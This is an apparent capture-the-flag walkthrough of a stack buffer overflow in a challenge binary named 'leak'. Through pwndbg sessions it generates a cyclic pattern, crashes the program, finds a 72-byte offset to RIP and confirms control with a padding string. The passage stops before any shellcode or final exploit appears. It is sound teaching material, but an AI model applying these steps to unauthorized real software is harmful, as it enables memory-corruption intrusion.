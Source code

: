   

We start by creating a `patron`specially designed character with `gdb`and running the program passing the pattern like `input`, the program is corrupted

```
❯ gdb -q ./leak
Reading symbols from leak...
(No debugging symbols found in leak)
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
pwndbg> run
Starting program: /home/kali/leak
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Oops, I'm leaking! 0x7fffffffe530
Pwn me ¯\_(ツ)_/¯ 
> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa  

Program received signal SIGSEGV, Segmentation fault.
0x000000000040088e in main ()
pwndbg>
```

  

We can see the offset using `pattern_offset`gdb, just passing it the value of the register `RSP`, we need `72`bytes before overwriting the register`RIP`

```
pwndbg> x/gx $rsp
0x7fffffffe578:	0x616161616161616a
pwndbg> cyclic -l 0x616161616161616a
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)  
Found at offset 72
pwndbg>
```

  

This time we create a string of `72 A`and `8 B`to be able to debug the address

```
❯ python3 -q
>>> "A" * 72 + "B" * 8
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB'  
>>>
```

  

Now we run the program passing our string like `input`, it is corrupted

```
❯ gdb -q ./leak
Reading symbols from leak...
(No debugging symbols found in leak)
pwndbg> run
Starting program: /home/kali/leak
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Oops, I'm leaking! 0x7fffffffe530
Pwn me ¯\_(ツ)_/¯ 
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB  

Program received signal SIGSEGV, Segmentation fault.
0x000000000040088e in main ()
pwndbg>
```
